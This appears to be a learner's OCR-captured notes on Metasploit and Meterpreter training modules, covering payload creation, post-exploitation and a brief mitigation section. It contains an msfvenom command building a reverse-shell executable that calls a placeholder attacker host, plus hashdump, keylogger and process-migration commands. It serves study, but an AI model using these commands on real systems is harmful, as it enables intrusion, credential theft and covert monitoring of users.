 ```bash

Bash

# Creating a Windows executable file that calls the attacking machine
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe

The Handler: The crucial step is to configure the listener to catch that connection: use exploit/multi/handler.

4. Conclusions and Defense
Mitigation: How was the vulnerability that was attacked defended? (E.g., “The MS17-010 vulnerability was mitigated by installing the Microsoft security patch and disabling SMBv1.”)


Lesson learned: (e.g., “The importance of not skipping the information gathering phase, as the success of the exploit depends on knowing the services running on the target.”)

## Module Completed: Metasploit: Meterpeter ##

**Completion Date:** [2025/09/30]

1. Module Objective: Post-Exploitation with Meterpreter
Demonstrate complete control over a remote host after a successful exploit.

Master critical commands for management, lateral movement, and credential theft.

2. Survival and Stealth Commands (Core Commands)
Key Task    Command/Technique    Notes and Value
Stability    migrate [PID]    
Migrated the session to a stable process (e.g., a system service) to avoid losing the connection if the initial process fails.

Identity    getuid    
View the privilege level (Ideally: 

NT AUTHORITY\\SYSTEM) to know what to attempt next.

Listing    ps    
Processes were listed to identify targets for migration and obtain system information.

Native Access    shell    
Obtain a normal command line from the victim to execute binaries not available in Meterpreter.


Export to Spreadsheets
3. Information and Credential Gathering (The Gold)

Password Hashes: The hashdump command was used to extract NTLM hashes from the Windows SAM database.

Next Step: These hashes are valuable for Pass-the-Hash attacks or for cracking the password.


Keystroke Capture: A keylogger was configured using keyscan_start and keyscan_dump to capture user activity.


Important Files: Use search -f [name] to locate specific files (such as flags in CTFs or configuration files).

4. Advanced Post-Exploitation (Bonus Track)

```